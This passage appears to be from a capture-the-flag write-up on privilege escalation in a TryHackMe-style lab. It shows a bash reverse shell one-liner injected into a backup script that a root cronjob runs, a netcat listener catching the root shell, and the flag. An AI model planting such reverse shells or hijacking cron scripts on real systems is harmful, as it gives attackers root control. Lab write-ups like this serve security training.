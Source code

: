 - Found some interesting things
```sh

cat /usr/local/bin/main_backup.sh

sudo nano /opt/admin_stuff/script.sh

```
- Lets analyse them

```sh
gyles@TEAM:/home/gyles$ cat /usr/local/bin/main_backup.sh
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
```
```sh
gyles@TEAM:/home/gyles$ cat /opt/admin_stuff/script.sh
#!/bin/bash
#I have set a cronjob to run this script every minute


dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
#Back ups the sites locally
$main_site
$dev_site
```
- The script is connected with the main_backup.sh which is a bash file
    - Lets user bash reverse shell one-liner

```sh
gyles@TEAM:/home/gyles$ cat /usr/local/bin/main_backup.sh
#!/bin/bash
bash -i >& /dev/tcp/10.11.96.92/8080 0>&1
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
```

```sh
┌──(bc-here㉿BC-Here)-[~]
└─$ nc -nlvp 8080
listening on [any] 8080 ...
connect to [10.11.96.92] from (UNKNOWN) [10.10.253.175] 40976
bash: cannot set terminal process group (4073): Inappropriate ioctl for device
bash: no job control in this shell
root@TEAM:~# ls
ls
root.txt

```

- After waiting a little bit we got the root shell

```sh
root@TEAM:~# cat root.txt
cat root.txt
THM{fhqbznavfonq}
root@TEAM:~#
```

##### root.txt:`THM{fhqbznavfonq}`
